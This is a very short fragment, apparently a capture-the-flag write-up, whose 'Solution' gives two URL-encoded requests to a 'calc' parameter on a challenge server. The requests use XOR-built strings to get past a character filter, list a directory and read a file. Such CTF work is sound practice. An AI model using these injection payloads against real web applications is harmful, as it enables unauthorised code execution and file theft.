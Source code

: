 ### Solution

**Listing the file**
http://139.180.155.171/?calc=(%27-%27^%27~%27^%273%27).(%27^%27^%272%27).(%27-%27^%27^%27).(%27-%27^%27~%27^%273%27)

**Reading the file**

view-source:http://139.180.155.171/?calc=%27-00000-%27%5E%27~--%7C67~%27%5E%273~%7C8%26-3%27